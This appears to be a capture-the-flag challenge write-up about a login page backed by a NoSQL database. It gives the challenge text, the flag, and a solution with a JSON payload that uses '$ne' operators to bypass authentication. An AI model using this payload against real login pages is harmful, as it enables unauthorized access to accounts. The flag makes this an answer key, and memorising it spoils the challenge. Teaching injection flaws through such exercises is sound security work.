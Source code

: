 # No SQL Injection

**Description:** I have heard all about the issues that SQL injection attacks can cause. So I decided to not use a relational database system and use a **NoSQL** backend database instead. This way my secure website cannot be vulnerable to any SQL injection attacks! Can you test my login page to prove that I am correct and my website is secure?

The goal is to successfully login and view the admin page.

**Student Files:**
  - [students_no_sql_injection.zip](provided_files/students_no_sql_injection.zip)

**Flag:** CTF{w41t_y0u_c4n_iNj3cT_nO_sQlI_dB5_2???!??}

## Solution

* Vulnerable to NoSQLi authentication bypass.
* Example JSON payload

```json
{
  "username":{
    "$ne" : "somerandomname"
  },
  "password":{
    "$ne":"test"
  }
}
```
